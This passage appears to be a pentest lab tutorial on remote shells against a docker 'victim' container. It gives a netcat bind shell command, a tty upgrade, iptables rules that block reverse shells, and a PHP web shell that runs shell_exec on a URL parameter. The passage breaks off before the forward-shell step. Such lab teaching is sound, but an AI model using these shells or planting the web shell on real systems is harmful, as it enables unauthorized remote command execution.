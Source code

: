 ```shell
script /dev/null -c bash
```

## Bind shell

First of all, in our docker container (victim) we will use netcat to listen incoming connections trough a specific port, offering a shell:

```shell
nc -nlvp {PORT} -e /bin/bash
```

Then, in our local machine (attacker) we will use netcat to establish the connection to victim machine:

```shell
nc {VICTIM_IP} {VICTIM_PORT}
```

Finally we can obtain an interactive shell (tty) in order to make the shell prettier:

```shell
script /dev/null -c bash
```

## Forward shell

First of all we need to establish two rules with *iptable* command for blocking the reverse shell attempt:

```shell
# Accepting output tcp in 80 port
iptables -A OUTPUT -p tcp -m tcp -o eth0 --sport 80 -j ACCEPT

# Blocking the other connections
iptables -A OUTPUT -o eth0 -j DROP
```

----
> We can clear all rules with the *iptables -F* command.
----

In this case we will suppose that we have managed to upload a "cmd.php" file to the victim machine that will be in charge of establishing a reverse shell to the attacker machine:

```php
<?
	echo shell_exec($_GET['cmd']);
?>
```

Let's try to execute the following command in the search bar of our browser inside the file that we have uploaded to the victim's apache server:

----
> Above command will not work if we don't edit the */etc/php/{PHP_VERSION}/apache2/php.ini* file and change the value of *short_open_tag* from Off to On. Then run *service apache2 restart*.
----
